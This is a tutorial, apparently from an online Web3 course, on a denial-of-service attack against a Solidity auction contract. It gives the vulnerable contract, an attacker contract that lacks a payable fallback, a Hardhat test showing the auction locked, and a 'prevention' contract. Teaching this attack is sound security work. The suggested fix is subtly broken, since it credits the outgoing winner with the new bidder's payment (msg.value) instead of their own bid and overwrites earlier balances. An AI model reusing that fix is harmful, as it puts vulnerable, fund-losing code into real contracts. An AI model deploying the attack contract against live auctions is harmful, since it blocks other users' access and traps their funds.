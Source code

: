 # 🛡️ Deny users from accessing a smart contract

![image](https://user-images.githubusercontent.com/16539849/174761638-cf7c28d6-f654-4f5b-8fab-569ddc968941.png)

A Denial of Service (DOS) attack is a type of attack that is designed to disable, shut down, or disrupt a network, website, or service. Essentially it means that the attacker somehow can prevent regular users from accessing the network, website, or service therefore denying them service. This is a very common attack which we all know about in web2 as well but today we will try to imitate a Denial of Service attack on a smart contract

<Quiz questionId="545bcf50-01b7-43c6-9abd-d76200651f1c" />
<Quiz questionId="2273400b-2667-4462-a6e1-2076fa078f50" />

## 🤔 Overview

There will be two smart contracts - `Good.sol` and `Attack.sol`. `Good.sol` will be used to run a sample auction where it will have a function in which the current user can become the current winner of the auction by sending `Good.sol` higher amount of ETH than was sent by the previous winner. After the winner is replaced, the old winner is sent back the money which he initially sent to the contract.

`Attack.sol` will attack in such a manner that after becoming the current winner of the auction, it will not allow anyone else to replace it even if the address trying to win is willing to put in more ETH. Thus `Attack.sol` will bring `Good.sol` under a DOS attack because after it becomes the winner, it will deny the ability for any other address to becomes the winner.

## ⚒️ Build

### Setting up Hardhat

To start the project, open up your terminal and create a new project directory.

```bash
mkdir denial-of-service
```

Let's start by setting up Hardhat inside the `denial-of-service` directory.

```bash
cd denial-of-service
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox
npx hardhat
```

when prompted, choose the `Create a Javascript Project` option and follow the steps.

### Write the Smart Contracts

Let's create the auction contract, named `Good.sol`, with the following code.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;

    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        (bool sent, ) = currentWinner.call{value: currentAuctionPrice}("");
        if (sent) {
            currentAuctionPrice = msg.value;
            currentWinner = msg.sender;
        }
    }
}
```

This is a pretty basic contract which stores the address of the last highest bidder, and the value that they bid. Anyone can call `setCurrentAuctionPrice` and send more ETH than `currentAuctionPrice`, which will first attempt to send the last bidder their ETH back, and then set the transaction caller as the new highest bidder with their ETH value.

Now, create a contract named `Attack.sol` within the `contracts` directory and write the following lines of code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./Good.sol";

contract Attack {
    Good good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public payable {
        good.setCurrentAuctionPrice{value: msg.value}();
    }
}
```

This contract has a function called `attack()`, that just calls `setCurrentAuctionPrice` on the `Good` contract. Note, however, this contract does not have a `fallback()` function where it can receive ETH. More on this later.

### Writing the Test

Let's create an attack that will cause the `Good` contract to become unusable. Create a new file under `test` folder named `attack.js` and add the following lines of code to it

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Denial of Service", function () {
  it("After being declared the winner, Attack.sol should not allow anyone else to become the winner", async function () {
    // Deploy the good contract
    const Good = await ethers.getContractFactory("Good");
    const goodContract = await Good.deploy();
    await goodContract.deployed();
    console.log("Good Contract's Address:", goodContract.address);

    // Deploy the Attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const attackContract = await Attack.deploy(goodContract.address);
    await attackContract.deployed();
    console.log("Attack Contract's Address", attackContract.address);

    // Now let's attack the good contract
    // Get two addresses
    const [_, addr1, addr2] = await ethers.getSigners();

    // Initially let addr1 become the current winner of the auction
    let tx = await goodContract.connect(addr1).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("1"),
    });
    await tx.wait();

    // Start the attack and make Attack.sol the current winner of the auction
    tx = await attackContract.attack({
      value: ethers.utils.parseEther("3"),
    });
    await tx.wait();

    // Now let's trying making addr2 the current winner of the auction
    tx = await goodContract.connect(addr2).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("4"),
    });
    await tx.wait();

    // Now let's check if the current winner is still attack contract
    expect(await goodContract.currentWinner()).to.equal(attackContract.address);
  });
});
```

Notice how `Attack.sol` will lead `Good.sol` into a DOS attack. First `addr1` will become the current winner by calling `setCurrentAuctionPrice` on `Good.sol` then `Attack.sol` will become the current winner by sending more ETH than `addr1` using the attack function. Now when `addr2` will try to become the new winner, it won't be able to do that because of this check(`if (sent)`) present in the `Good.sol` contract which verifies that the current winner should only be changed if the ETH is sent back to the previous current winner.

Since `Attack.sol` doesn't have a `fallback` function which is necessary to accept ETH payments, `sent` is always `false` and thus the current winner is never updated and `addr2` can never become the current winner

### Test the attack

To run the test, in your terminal pointing to the root directory of this level execute the following command

```bash
npx hardhat test
```

When the tests pass, you will notice that the `Good.sol` is now under DOS attack because after `Attack.sol` becomes the current winner, on other address can becomes the current winner.

<Quiz questionId="cb1beb74-071c-4e66-af53-897663e88a0c" />

## 👮 Prevention

- You can create a separate withdraw function for the previous winners.

Example:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;
    mapping(address => uint) public balances;

    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        balances[currentWinner] = msg.value;
        currentAuctionPrice = msg.value;
        currentWinner = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != currentWinner, "Current winner cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

<Quiz questionId="0d64b651-3b16-4893-8486-87f3008857a1" />
<Quiz questionId="eae0a815-5407-4ba6-8194-4902ef360a54" />
<Quiz questionId="cdabfe76-94aa-4aaa-90b8-5d3df2d1aa0d" />

## 👋 Conclusion

Hope you learnt something from this level. If you have any questions or feel stuck or just want to say Hi, hit us up on our [Discord](https://discord.gg/learnweb3). We look forward to seeing you there!

<SubmitQuiz />
